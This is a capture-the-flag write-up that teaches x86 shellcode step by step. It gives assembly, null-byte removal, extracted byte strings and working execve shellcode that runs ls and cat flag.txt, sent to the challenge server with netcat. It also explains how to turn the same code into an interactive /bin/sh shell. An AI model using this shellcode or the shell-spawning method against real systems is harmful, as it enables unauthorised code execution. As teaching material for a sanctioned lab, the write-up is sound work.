


# Gimme Shellcode
**Category:** Scripting

**Points:** 20

**Description:**

We sell C shells by the seashore.

nc ctf.hackucf.org 10103

## Write-up
> **tl;dr**  
This write-up details some of my learning about shellcode. This means it gets pretty long and side-tracked from time to time.  
The final shellcode performs `cat` on the file `flag.txt` on the server. You can just skip to the end and see what I did if you already know your shellcode.  
Or you can get a shell on the server by looking at my `/bin/ls` example and changing the `ls` to `sh`.  
If you want the quickest route to the flag, you can find existing shellcode solutions on-line and just use them. I tested one from http://shell-storm.org/shellcode/ (I tried Linux/x86 - execve(/bin/bash. [/bin/sh, -p]NULL) - 33 bytes and it worked well).  
**Warning**: Malwarebytes doesn't like the above site, but I think it's ok - lots of h4x0r's use it, but take care.  
**Note:** If you use `/bin/sh` against a server, you need to force the server to wait after executing your command, or it will return without you being able to use the shell. To do this, your command line should be (for Python2):  
`(python -c "print('<your shellcode here>')" ; cat) | nc ctf.hackucf.org 10103`  
or, for Python3:  
`(python3 -c "import sys; sys.stdout.buffer.write(b'<your shellcode here>')" ; cat) | nc ctf.hackucf.org 10103`

This challenge requires some shellcode to solve. Running it on the server returns:
```
> nc ctf.hackucf.org 10103
Send me shellcode, and I'll run it for you!
```

I didn't know anything about shellcode before tackling this challenge, so I used [this webpage](https://nobe4.fr/shellcode-for-by-newbie/) as a basis for learning.

First we create our test C program to run any shellcode locally to ensure it works:
```c
// Testbed for shellcode

// Enter shellcode instructions in this array
// Shellcode is in the form of hex bytes defining
// machine code (just like the old days!)
const char shellcode[] = "";

int main()
{
  // Create a function pointer
  // Set pointer to point at the shellcode
  // Call the function
  void (*func_p) (void);
  func_p = (void *)shellcode;
  func_p();

  return 0;
}
```
Now we can enter shellcode in the `shellcode` array and test it. The example in the webpage above uses 4 `nop` instructions, so I tried that by editing the shellcode variable:
```c
const char shellcode[] = "\x90\x90\x90\x90";
```
I compiled the code with:
```
> gcc -o shellcode-test shellcode-test.c
```
I opened it in IDA Pro and stepped through to ensure we call our 4 `nop` instructions.

In the `main` function we can see our call to `shellcode`, and we can see that `shellcode` is in the data segment, and has our 4 `nop` instructions in it:



When I step through this code, our instruction pointer (`RIP`) does end up in our `nop` instructions.



> Note: there is no return, so this will just plough through memory until it causes a segfault!

Now that we know that works, we want to try something we can test on the server. I want to play with shellcode a little, so I'm going to start with running an `ls` on the server, after testing it locally.

The [webpage](https://nobe4.fr/shellcode-for-by-newbie/) preferred `execve()` over `system()` to execute external programs within C code as it replaces the current process. Therefore, that's what we'll try here. First we write a C program which calls `execve()` and runs a `/bin/ls`:
```c
// Use execve to run an ls
#include <unistd.h>

int main()
{
  // The program to run
  char executable[] = "/bin/ls";

  // Argv is as if argv was received at main()
  // This means we need at least the program name
  // and a 0 to denote the end
  char *argv[2];
  argv[0] = "/bin/ls";
  argv[1] = 0;

  // Execute it...
  execve(executable, argv, 0);

  return 0;
}
```
I then built and ran this and it gave me a listing of the current directory:
```
> gcc -o ls-test ls-test.c 
> ./ls-test 
ls-test  ls-test.c  shellcode-test  shellcode-test.c  shellcode-test.i64
```
Now we need to create a set of assembly language instructions to mimic what this program does. I don't know whether the program on the server is 32-bit or 64-bit, so I can try both. If we assume 64-bit first, we should use `syscall` to to call a system function (like `execve()`). To do this we need to place the 64-bit system call number into `RAX`.

For 32-bit we should place the system call number into `EAX` and use `int 0x80` instead to make the call into the kernel.

We can find both the system call numbers with:
```
> cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep execve
#define __NR_execve 59
#define __NR_execveat 322
> cat /usr/include/x86_64-linux-gnu/asm/unistd_32.h | grep execve
#define __NR_execve 11
#define __NR_execveat 358
```
We can see the the 64-bit system call number is 59, and the 32-bit version is 11.

Now we can start writing an assembly language file. We'll start with a 64-bit version. We know it ends with:
```asm
mov rax, 59   ; Set the system call number for execve()
syscall       ; Run our execve()
```
We now sidestep for a moment to try something else, writing a message to the screen. This is so we can test accessing strings from within our shellcode. 

We need to make sure the message is in the .text section and not in the .data section so it can be encoded as part of our shellcode program. This is done by putting the string as part of a function. That function calls our main function, placing the return address on the stack. This means we can get the address of the data by popping from the stack. Here's a `Hello, world!` program testing that:
```asm
# Hello World test
         global _start
         section .text

_start:  jmp dataFunc


main:    pop rsi                       ; RSI needs to contain the message address
         mov rax, 1                    ; System interrup for 'write'
         mov rdi, 1                    ; Use stdout
         mov rdx, 14                   ; Number of bytes
         syscall
         mov rax, 60                   ; Now exit
         xor rdi, rdi                  ; with status 0
         syscall
         
dataFunc: call main
          db "Hello, world!", 10       ; Including new line
```
This was compiled and run with:
```
> nasm -felf64 testbed.asm && ld testbed.o -o testbed
> ./testbed 
Hello, world!
```
Now could we turn this into shellcode and run it in our C testbed? Let's look at an `objdump` or the code:
```asm
testbed:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080:	eb 1c                	jmp    40009e <dataFunc>

0000000000400082 <main>:
  400082:	5e                   	pop    %rsi
  400083:	b8 01 00 00 00       	mov    $0x1,%eax   ; Note: These registers have been 
  400088:	bf 01 00 00 00       	mov    $0x1,%edi   ;       reduced from 64-bit (RAX, etc) to the
  40008d:	ba 0e 00 00 00       	mov    $0xe,%edx   ;       32-bit versions (EAX, etc) by NASM
  400092:	0f 05                	syscall 
  400094:	b8 3c 00 00 00       	mov    $0x3c,%eax
  400099:	48 31 ff             	xor    %rdi,%rdi
  40009c:	0f 05                	syscall 

000000000040009e <dataFunc>:
  40009e:	e8 df ff ff ff       	callq  400082 <main>           ; Our call to main
  4000a3:	48                   	rex.W                          ; This section is the Hello World text
  4000a4:	65 6c                	gs insb (%dx),%es:(%rdi)       
  4000a6:	6c                   	insb   (%dx),%es:(%rdi)
  4000a7:	6f                   	outsl  %ds:(%rsi),(%dx)
  4000a8:	2c 20                	sub    $0x20,%al
  4000aa:	77 6f                	ja     40011b <dataFunc+0x7d>
  4000ac:	72 6c                	jb     40011a <dataFunc+0x7c>
  4000ae:	64 21 0a             	and    %ecx,%fs:(%rdx)
```
First we need to get rid of the zero bytes in the machine code. If the input request in the challenge sees a zero,
it will assume it is the end of the string and stop reading any further.

For these `mov` instructions it is relatively easy - just reduce the register to the 8-bit (LSB) versions. For `RAX/EAX` we can use `AL`, for `RDI/EDI` we can use `DIL` and for `RDX/EDX` we can use `DL`.

The new code is:
```asm
# Hello World test
         global _start
         section .text

_start:  jmp dataFunc


main:    pop rsi                       ; RSI needs to contain the message address
         mov al, 1                     ; System interrup for 'write'
         mov dil, 1                    ; Use stdout
         mov dl, 14                    ; Number of bytes
         syscall
         mov al, 60                    ; Now exit
         xor rdi, rdi                  ; with status 0
         syscall
         
dataFunc: call main
          db "Hello, world!", 10       ; Including new line
```
The `objdump` of this new code is:
```asm
testbed:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080:	eb 11                	jmp    400093 <dataFunc>

0000000000400082 <main>:
  400082:	5e                   	pop    %rsi
  400083:	b0 01                	mov    $0x1,%al
  400085:	40 b7 01             	mov    $0x1,%dil
  400088:	b2 0e                	mov    $0xe,%dl
  40008a:	0f 05                	syscall 
  40008c:	b0 3c                	mov    $0x3c,%al
  40008e:	48 31 ff             	xor    %rdi,%rdi
  400091:	0f 05                	syscall 

0000000000400093 <dataFunc>:
  400093:	e8 ea ff ff ff       	callq  400082 <main>
  400098:	48                   	rex.W
  400099:	65 6c                	gs insb (%dx),%es:(%rdi)
  40009b:	6c                   	insb   (%dx),%es:(%rdi)
  40009c:	6f                   	outsl  %ds:(%rsi),(%dx)
  40009d:	2c 20                	sub    $0x20,%al
  40009f:	77 6f                	ja     400110 <dataFunc+0x7d>
  4000a1:	72 6c                	jb     40010f <dataFunc+0x7c>
  4000a3:	64 21 0a             	and    %ecx,%fs:(%rdx)
```
This now has no zeros in, and so we can convert it to shellcode and test it in our C program. I used the following command (taken from [here](https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump)) to convert the `objdump` output to shellcode
```
> objdump -d ./testbed|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x11\x5e\xb0\x01\x40\xb7\x01\xb2\x0e\x0f\x05\xb0\x3c\x48\x31\xff\x0f\x05\xe8\xea\xff\xff\xff\x48\x65\x6c\x6c\x6f\x2c\x20\x77\x6f\x72\x6c\x64\x21\x0a"
```
I pasted the output to the `shellcode` array in the C test program, compiled it and ran it. This didn't quite work - it hangs. The reason is that I now set the `AL` register to put my value in `RAX`, but I don't zero `RAX` first. The same is true of other registers. I updated the assembly to:
```asm
# Hello World test
         global _start
         section .text

_start:  jmp dataFunc


main:    pop rsi                       ; RSI needs to contain the message address
         xor rax, rax                  ; Clear the RAX register
         mov al, 1                     ; System interrup for 'write'
         xor rdi, rdi                  ; Clear the RDI register
         mov dil, 1                    ; Use stdout
         xor rdx, rdx                  ; Clear the RDX register
         mov dl, 14                    ; Number of bytes
         syscall
         mov al, 60                    ; Now exit
         xor rdi, rdi                  ; with status 0
         syscall
         
dataFunc: call main
          db "Hello, world!", 10       ; Including new line
```
I re-ran my objdump->shellcode one-liner, and copied the new code into the `shellcode` array in `shellcode_test.c`. Now I ran the new code:
```
> ./shellcode-test 
Hello, world!
```
It works!

OK. That was fun, but can we run it on the server? The answer was no. After some playing around, I found the server was running 32-bit executable, so, I revised my assembly language:
```asm
# Hello World test
         global _start
         section .text

_start:  jmp dataFunc


main:    pop ecx                       ; ecx needs to contain the message address
         xor eax, eax                  ; Clear the EAX register
         mov al, 4                     ; System interrup for 'write'
         xor ebx, ebx                  ; Clear the EBX register
         mov bl, 1                     ; Use stdout
         xor edx, edx                  ; Clear the EDX register
         mov dl, 14                    ; Number of bytes
         int 0x80                      ; Call the system call
         mov al, 1                     ; Now exit
         xor ebx, ebx                  ; with status 0
         int 0x80
         
dataFunc: call main
          db "Hello, world!", 10       ; Including new line

```
Now to build that code we need to take the 64-bit option out of `nasm` and add a 32-bit option to `ld`:
```
> nasm -felf testbed.asm -o testbed.o && ld -m elf_i386 -o testbed testbed.o
> ./testbed
Hello, world!
```

Then I converted this new executable to shellcode and set the `shellcode` array in the C test program to:
```c
const char shellcode[] = "\xeb\x15\x59\x31\xc0\xb0\x04\x31\xdb\xb3\x01\x31\xd2\xb2\x0e\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xe8\xe6\xff\xff\xff\x48\x65\x6c\x6c\x6f\x2c\x20\x77\x6f\x72\x6c\x64\x21\x0a";
```
I thought you might need to build the C test executable as 32-bit, but it doesn't seem to matter:
```
> gcc -m32 -o shellcode-test shellcode-test.c
> ./shellcode-test
Hello, world!
> gcc -o shellcode-test shellcode-test.c
> ./shellcode-test
Hello, world!
```
And can we run the shellcode on the server?:
```
> python -c "print ('\xeb\x15\x59\x31\xc0\xb0\x04\x31\xdb\xb3\x01\x31\xd2\xb2\x0e\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xe8\xe6\xff\xff\xff\x48\x65\x6c\x6c\x6f\x2c\x20\x77\x6f\x72\x6c\x64\x21\x0a')" | nc ctf.hackucf.org 10103
Send me shellcode, and I'll run it for you!
Running shellcode!
Hello, world!
```
Yes, we can!
> **Note:** The above works in Python2. As Python3 uses Unicode for the basic string, and `print()` expects Unicode, for Python3 use:  
  `python3 -c "import sys; sys.stdout.buffer.write(b'\xeb\x15\x59\x31\xc0\xb0\x04\x31\xdb\xb3\x01\x31\xd2\xb2\x0e\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xe8\xe6\xff\xff\xff\x48\x65\x6c\x6c\x6f\x2c\x20\x77\x6f\x72\x6c\x64\x21\x0a')" | nc ctf.hackucf.org 10103`

Now, let's convert this to an `ls` on the server using `execve()` as we started earlier.
For 32-bit `execve()`, the set up is:
| Register | Contents|
|----------|---------|
| EAX      | System call number|
| EBX      | Pointer to command - should be null terminated|
| ECX      | Pointer to command (for argv - can include other args)|
| EDX      | Evironment (envp) - usually zero|

Because we need null terminated strings, it easier to move to using the push-pop method of storing the strings (see the [webpage](https://nobe4.fr/shellcode-for-by-newbie/) I used). This means we need to convert our `/bin/ls` into bytes we can push to the stack, where we can retrieve them for the appropriate registers:
```
> python -c "print('/bin/ls'.encode('hex'))"
2f62696e2f6c73
```
This has only 7 bytes, and we need 4 per `push` (the total length of output from the above command needs to be a multiple of 8), otherwise one of the bytes will be zero and will terminate the input at that point. Therefore, we add an extra slash to pad it out, which will make no difference to the command:
```
> python -c "print('/bin//ls'.encode('hex'))"
2f62696e2f2f6c73
```
> **Note:** The above commands work in Python2. To get the hex values in Python3, use:  
  `python3 -c "import binascii; print(binascii.b2a_hex(b'/bin//ls'))"`


So we need to push to the stack `0x6e69622f` and `0x736c2f2f`. Whatever is pushed last will be popped first, so we also need to reverse these so that `0x736c2f2f` is pushed first.

Now the assembly language becomes:
```asm
# /bin/ls test
         global _start
         section .text

_start:  xor eax, eax               ; Start with EAX at 0
         push eax                   ; The null terminator for our string
         push 0x736c2f2f            ; Push the executable string (bin/ls) to the stack
         push 0x6e69622f            ;
         mov ebx, esp               ; Set EBX so it points to the command
      
         ; The argv list is a list of pointers to strings
         ; ECX points at the start of this list and the list is
         ; NULL terminated
         push eax                   ; Null terminate our argv list
         push ebx                   ; First and only argv (the command)
         mov ecx, esp               ; Set ECX so it points to the argv list

         xor edx, edx               ; EDX represents any environment, and is usually null

         ; The system call number for execve() on 32-bit systems is 11 (0x0b)
         mov al, 0x0b               ; Use AL so we don't need zeros
         int 0x80

         mov al, 1                   ; Now exit (system call 1)
         xor ebx, ebx                ; with status 0
         int 0x80
```
I built this and ran it:
```
> nasm -felf ls-shellcode.asm -o ls-shellcode.o && ld -m elf_i386 -o ls-shellcode ls-shellcode.o
> ./ls-shellcode 
ls-shellcode	  ls-test.asm  shellcode-test	 testbed-32.o
ls-shellcode.asm  ls-test.c    shellcode-test.c  testbed.asm
ls-shellcode.o	  ls-test.i64  testbed		 testbed.i64
ls-test		  payload.bin  testbed-32	 testbed.o
```
Then I turned it into shellcode:
```
objdump -d ./ls-shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80\xb0\x01\x31\xdb\xcd\x80"
```
and put it in the `shellcode` array in our C testbed, compiled it and ran it:
```
> gcc -m32 shellcode-test.c -o shellcode-test
> ./shellcode-test 
ls-shellcode	  ls-test.asm  shellcode-test	 testbed-32.o
ls-shellcode.asm  ls-test.c    shellcode-test.c  testbed.asm
ls-shellcode.o	  ls-test.i64  testbed		 testbed.i64
ls-test		  payload.bin  testbed-32	 testbed.o
```
Now we can try running this on the server:
```
> python -c "print('\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80\xb0\x01\x31\xdb\xcd\x80')" | nc ctf.hackucf.org 10103
Send me shellcode, and I'll run it for you!
Running shellcode!
flag.txt
gimmeshellcode
```
Great! We can see that there's a file named `flag.txt` there.
> **Note:** The above works in Python2. As Python3 uses Unicode for the basic string, and `print()` expects Unicode, for Python3 use:  
  `python3 -c "import sys; sys.stdout.buffer.write(b'\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80\xb0\x01\x31\xdb\xcd\x80')" | nc ctf.hackucf.org 10103`

Let's write one more shellcode example to `cat` that file (it'll give us the chance to test `execve()` with multiple arguments in `argv`).

First we need bytes for the strings `/bin/cat` and `flag.txt`
```
> python -c "print('/bin/cat'.encode('hex'))"
2f62696e2f636174
> python -c "print('flag.txt'.encode('hex'))"
666c61672e747874
```
Both are the right length, so we don't need padding. `/bin/cat` will need `0x6e69622f` and `0x7461632f`, and `flag.txt` will need `0x67616c66` and `0x7478742e`.
> **Note:** The above commands work in Python2. To get the hex values in Python3, use:  
  `python3 -c "import binascii; print(binascii.b2a_hex(b'/bin/cat'))"`  
  `python3 -c "import binascii; print(binascii.b2a_hex(b'flag.txt'))"`

Here's the assembly I wrote to do the `cat`:
```asm
# /bin/cat flag.txt test
         global _start
         section .text

_start:  xor eax, eax               ; Start with EAX at 0
         push eax                   ; The null terminator for our string
         push 0x7461632f            ; Push the executable string (/bin/cat) to the stack
         push 0x6e69622f            ;
         mov ebx, esp               ; Set EBX so it points to the command

         push eax                   ; Null terminate the argument string
         push 0x7478742e            ; Push the argument (flag.txt) to the stack
         push 0x67616c66            ;
         mov esi, esp               ; Save the pointer in ESI
      
         ; The argv list is a list of pointers to strings
         ; ECX points at the start of this list and the list is
         ; NULL terminated
         push eax                   ; Null terminate our argv list
         push esi                   ; Push the pointer to the argument (flag.txt)
         push ebx                   ; Push the pointer to the command (/bin/cat)
         mov ecx, esp               ; Set ECX so it points to the argv list

         xor edx, edx               ; EDX represents any environment, and is usually null

         ; The system call number for execve() on 32-bit systems is 11 (0x0b)
         mov al, 0x0b               ; Use AL so we don't need zeros
         int 0x80
        
         mov al, 1                   ; Now exit
         xor ebx, ebx                ; with status 0
         int 0x80

```
I built and ran this to test it:
```
> nasm -felf cat-shellcode.asm -o cat-shellcode.o && ld -m elf_i386 -o cat-shellcode cat-shellcode.o
> ./cat-shellcode 
flag{dummy_flag_for_testing}
This is just a local file, 
not the actual one!
End of transmission...
```
This listed out my local flag.txt file. Now it is converted to shellcode and tested on the server:
```
> SCODE=$(objdump -d ./cat-shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g')
> SCODE=$(echo $SCODE | sed -e 's/\"//g')
> python -c "print ('$SCODE')" | nc ctf.hackucf.org 10103
Send me shellcode, and I'll run it for you!
Running shellcode!
flag{...}
```
> **Note:** The above works in Python2. As Python3 uses Unicode for the basic string, and `print()` expects Unicode, for Python3 change the above `python` command to:  
`python3 -c "import sys; sys.stdout.buffer.write(b'$SCODE')" | nc ctf.hackucf.org 10103`

This gave me the flag.
